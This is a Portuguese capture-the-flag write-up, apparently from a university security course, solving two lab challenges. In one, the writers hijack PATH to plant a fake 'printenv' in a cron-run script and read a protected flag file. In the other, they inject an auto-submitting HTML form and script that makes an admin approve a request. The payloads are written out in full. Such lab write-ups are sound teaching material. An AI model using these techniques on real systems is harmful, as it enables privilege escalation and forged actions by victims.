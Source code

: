 # Desafios Extra/Opcionais

## British Punctuality

Explorando inicialmente o servidor, encontramos no diretório `home/flag_reader` um script `my_script.sh` que faz uso de um executável `/home/flag_reader/reader` cujo código fonte podemos ler no ficheiro `main.c`. Não temos permissões para escrever para nenhum destes ficheiros. Encontramos também  um diretório `flags` onde se encontra a flag que procuramos (`/flags/flag.txt`), no entanto, como seria esperado, não temos permissões para aceder a este diretório.  

`my_script.sh`  
```shell
#!/bin/bash

if [ -f "/tmp/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /tmp/env | /usr/bin/xargs)
    rm /tmp/env
fi

printenv
exec /home/flag_reader/reader
```  

`main.c`  
```c
#include <stdio.h>
#include <unistd.h>

void my_big_congrats(){
    puts("TODO - Implement this in the near future!");
}

int main() {
    puts("I'm going to check if the flag exists!");

    if (access("/flags/flag.txt", F_OK) == 0) {
        puts("File exists!!");
        my_big_congrats();
    } else {
        puts("File doesn't exist!");
    }

    return 0;
}
```  

 
```bash
nobody@330311abc802:/home/flag_reader$ cd ../..
nobody@330311abc802:/$ ls -d -l flags
drwxr-x--- 2 root flag_reader 60 Dec 17 16:15 flags
nobody@330311abc802:/$ cd flags
bash: cd: flags: Permission denied
```  

Destas informações percebemos que para chegar à flag vamos precisar das permissões do utilizador `flag_reader` (`root` também funcionaria).  

Atendendo ao nome do desafio e há descrição *This challenge runs with a strict schedule* surge-nos a ideia do `cron`, um *job scheduller* para sistemas Unix.   

No diretório `etc/cron.d` encontramos um ficheiro `my_cron_script`.  

`my_cron_script`  
```shell
PATH=/bin:/usr/bin:/usr/local/bin

* * * * * flag_reader /bin/bash -c "/home/flag_reader/my_script.sh > /tmp/last_log"
```  

Interpretando o ficheiro percebemos que, a cada minuto, o script `my_script.sh` é corrido e o output do mesmo é escrito no ficheiro `/tmp/last_log`. Sabemos também que isto é feito com as permissões do utilizador `flag_reader`. Assim, a solução passa por encontrar e explorar uma vulnerabilidade no script que nos permita ler o ficheiro que contém a flag. No script é utilizado o comando `export`, pelo que concluimos que podemos, ao criar o ficheiro `tmp/env` alterar (por um minuto) as variáveis de ambiente do utilizador `flag_reader`. Isto é importante pois logo depois é utilizado o comando `printenv`, sem a indicação do caminho para o binário.  

```bash  
nobody@330311abc802:/$ whereis printenv
printenv: /usr/bin/printenv
```  

Juntando estas informações, podemos criar um novo ficheiro `printenv`, e adicionar o seu caminho à variável `PATH` para que seja utilizado no lugar do binário predefinido, podendo correr qualquer código shell com as permissões que queremos.

```bash
nobody@330311abc802:/tmp$ echo "PATH=/tmp:$PATH" > env
nobody@330311abc802:/tmp$ echo "cat /flags/flag.txt" > printenv
```

Depois do script ser executado basta ler o conteúdo do ficheiro `/tmp/last_log` e uma das linhas será a flag.

## Apply For Flag II

Verificou-se a existência do ID do pedido - `<requestID>` - e de um _form_ onde é possível inserir texto, que à partida não é devidamente tratado. Para efeitos de teste, deu-se um _input_ qualquer (_string_ "justification" no caso), que é verificado pelo _admin_ na página `http://ctf-fsi.fe.up.pt:5005/request/<requestID>`. 

![](./screenshots/apply_for_flag2_1.png) 

![](./screenshots/apply_for_flag2_2.png) 

Na página utilizada pelo _admin_, existe o botão `Give the flag` cujo código fonte se encontra no _screenshot_ abaixo. O objetivo é fazer o _admin_ clicar nesse botão.

![](./screenshots/apply_for_flag2_3.png) 

Para isso, copiou-se o código fonte do botão, alterou-se o atributo `action` e removeu-se o `disabled`. Para além disso, acrescentou-se o _script_ que realiza a ação de carregar no botão ao carregar a página. Este foi o _input_:

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<requestID>/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
</form>
<script> 
    window.onload = function(){
        document.getElementById('giveflag').click();
    } 
</script>
``` 

- Nota: neste caso `<requestID>` é `fa9d70d9d2ed6c76ac2f46f6f203bb80b6f46dbb`.

![](./screenshots/apply_for_flag2_5.png) 

Clicou-se no botão `Submit` e deu origem ao seguinte erro:

![](./screenshots/apply_for_flag2_8.png) 

O problema encontra-se no facto do _browser_ não permitir que pedidos HTTP sejam feitos para origens diferentes.  
Para contornar isso, permitindo que fossem feitos pedidos _cross origin_ retirou-se a permissão para que os sites usassem _JavaScript_ no _browser_. No _Google Chrome_ é possível fazer isso em `chrome://settings/content/javascript` como demonstra o _screenshot_ abaixo.

![](./screenshots/apply_for_flag2_4.png) 

Com a opção `Don't allow sites to use Javascript` selecionada, voltou-se a submeter o _input_, em seguida atualizou-se a página e a _flag_ foi dada.

![](./screenshots/apply_for_flag2_6.png) 

![](./screenshots/apply_for_flag2_7.png) 



